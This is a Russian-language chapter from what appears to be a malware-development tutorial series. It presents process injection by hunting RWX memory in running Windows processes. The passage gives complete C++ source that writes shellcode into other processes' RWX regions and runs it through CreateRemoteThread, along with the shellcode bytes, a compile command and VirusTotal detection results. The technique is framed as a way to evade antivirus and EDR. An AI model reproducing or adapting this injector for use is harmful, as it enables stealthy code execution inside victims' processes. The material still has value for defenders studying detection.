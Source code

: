 \newpage
\subsection{28. Инъекция в процесс через поиск RWX-памяти. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![injection](./images/38/2022-02-02_15-59.png){width="80%"}    

Этот раздел посвящен самостоятельному изучению ещё одной техники инъекции в процесс.    

### поиск RWX-памяти    

Давайте рассмотрим логику [классического](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) вредоносного кода для инъекции:    
```cpp
//...
// выделение буфера памяти для удаленного процесса
rb = VirtualAllocEx(ph, NULL, my_payload_len, 
(MEM_RESERVE | MEM_COMMIT), 
PAGE_EXECUTE_READWRITE);

// "копирование" данных между процессами
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);

// наш процесс запускает новый поток
rt = CreateRemoteThread(ph, NULL, 0, 
(LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

Как мы помним, функция `VirtualAllocEx` позволяет выделить буфер памяти в удаленном процессе, затем `WriteProcessMemory` копирует туда данные, а `CreateRemoteThread` указывает, в каком процессе нужно запустить новый поток.    

А что если попробовать другой способ? Можно перебирать все запущенные целевые процессы в скомпрометированной системе, искать среди их выделенных блоков памяти те, которые защищены с помощью RWX, и попытаться записать/прочитать/выполнить их. Это может помочь обойти некоторые антивирусы и EDR.    

### практический пример

Алгоритм этой техники довольно прост, давайте разберём его:    

Перебираем все процессы в системе:    

![injection 2](./images/38/2022-02-02_18-33.png){width="80%"}    

Перебираем все выделенные блоки памяти в каждом процессе:    

![injection 3](./images/38/2022-02-02_18-35.png){width="80%"}    

Затем проверяем, защищён ли блок памяти с помощью `RWX`:    

![injection 4](./images/38/2022-02-02_18-36.png){width="80%"}    

Если да, выводим найденный блок памяти (*для демонстрации*):    

![injection 5](./images/38/2022-02-02_18-38.png){width="80%"}    

Записываем наш полезный код в этот блок памяти:    

![injection 6](./images/38/2022-02-02_18-39.png){width="80%"}    

Затем запускаем новый удалённый поток:    

![injection 7](./images/38/2022-02-02_18-44.png){width="80%"}    

Полный исходный код нашего вредоносного ПО на C++:


```cpp
/*
hack.cpp
process injection technique via 
RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
    ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
    if (ph) {
      printf("hunting in %s\n", pe.szExeFile);
      while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
        address = (LPVOID)(
        (DWORD_PTR)m.BaseAddress + m.RegionSize);
        if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
          printf("rwx memory successfully found at 0x%x :)\n", 
          m.BaseAddress);
          WriteProcessMemory(ph, m.BaseAddress, 
          my_payload, sizeof(my_payload), NULL);
          CreateRemoteThread(ph, NULL, NULL, 
          (LPTHREAD_START_ROUTINE)m.BaseAddress, 
          NULL, NULL, NULL);
          break;
        }
      }
      address = 0;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;
}

```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демо

Давайте посмотрим, как всё работает. Компилируем наш практический пример:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection 8](./images/38/2022-02-02_16-10.png){width="80%"}   

Затем запускаем! В нашем случае целевая машина - `Windows 10 x64`:    

![injection 9](./images/38/2022-02-02_16-10_1.png){width="80%"}  

Как видно, всё работает идеально! :)    

Проверим один из целевых процессов, например, `OneDrive`:    

![injection 10](./images/38/2022-02-02_18-59.png){width="80%"}  

![injection 11](./images/38/2022-02-02_16-09.png){width="80%"}  

> Есть один нюанс. Представленный ниже код является сырым proof-of-concept и может вызывать сбои в работе определённых процессов. Например, в моём случае `SearchUI.exe` аварийно завершился и не работал после запуска моего примера.    

Загружаем вредоносное ПО на VirusTotal:    

![vt](./images/38/2022-02-02_19-44.png){width="80%"}    

[https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection](https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection)    

**Итак, 7 из 69 антивирусных движков обнаруживают наш файл как вредоносный.**    

Результат `Moneta64.exe`:

![moneta](./images/38/2022-02-02_19-49.png){width="80%"}    

Преимущество этой техники в том, что она не требует выделения новой `RWX` памяти для копирования полезной нагрузки с помощью `VirtualAllocEx`, который является более популярным и подозрительным, а также более тщательно исследуется синими командами.    

Я надеюсь, что этот раздел повысит осведомленность синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)    
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)    
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)    
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)    
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)    
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)    
[Hunting memory](https://www.elastic.co/blog/hunting-memory)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[исходный код на Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)    
